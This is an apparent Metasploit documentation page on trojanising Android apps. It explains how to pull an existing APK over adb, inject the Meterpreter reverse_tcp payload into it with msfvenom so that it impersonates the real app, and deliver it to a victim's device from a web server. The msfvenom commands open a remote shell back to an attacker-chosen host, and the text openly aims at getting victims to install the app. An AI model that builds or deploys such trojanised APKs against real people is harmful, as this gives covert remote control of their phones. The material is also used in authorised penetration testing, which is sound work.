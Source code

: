 You can inject the Android Meterpreter into an existing APK using msfvenom. This
will allow you to impersonate an existing application, which may make it easier 
to convince your victim to install the APK.

## Vulnerable An Existing Application

It should be possible to inject Meterpreter into any APK, however some applications
have complex resource structures which may not work with `apktool`.
Additionally some applications have security measures that prevent the application
from working as expected once it has been modified.

## Create Default Metasploit Android Application

It is preferred to use an existing application, however if you don't want to use existing
application. You can Create default metasploit android application.

**Finding APKs**

There are many websites that provide standalone APK that can be downloaded, e.g:
APKPure, APKMirror, RAW APK.
You can also build a simple application yourself with Android Studio.

Additionally you can pull APKs from a device connected via ADB:

```
$ adb shell pm list packages | grep app
package:com.existing.app
$ adb shell pm path com.existing.app
package:/data/app/com.existing.app-1/base.apk
$ adb pull /data/app/com.existing.app-1/base.apk com.existing.apk
[100%] /data/app/com.existing.app-1/base.apk
```

## Requirements
 
APK Injection (as opposed to generating a single APK payload) requires a few tools
to be present on your command line already:

* [Java](https://www.oracle.com/java/technologies/downloads/) - Used for building/editing APK
* [Apktool](https://ibotpeaches.github.io/Apktool/) - Used for rebuilding the APK
* [keytool](https://docs.oracle.com/javase/8/docs/technotes/tools/unix/keytool.html) - To create and extract signing certificates
* [jarsigner](https://docs.oracle.com/javase/7/docs/technotes/tools/windows/jarsigner.html) - To re-sign the APK

Installing these tools (if they are not installed already) will depend on your OS.
Apktool can be installed manually or automatically (e.g `brew install apktool` OR 'apt install apktool').
keytool and jarsigner can be installed by installing the appropriate JDK.

## Inject Payload Into An Existing APK File

Use:

```
./msfvenom -p android/meterpreter/reverse_tcp -x com.existing.apk LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```

## Create Meterpreter APK File

```
./msfvenom -p android/meterpreter/reverse_tcp LHOST=[IP] LPORT=4444 -f raw -o /tmp/android.apk
```
## Sending apk to other Devices:

There are many method to send APK to victim's device but one of the easiest methods is using a web server.

Next, start an Android device. Upload the APK, execute it and run it, as you would with
a [normal Android meterpreter APK](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/payload/android/meterpreter/reverse_tcp.md).


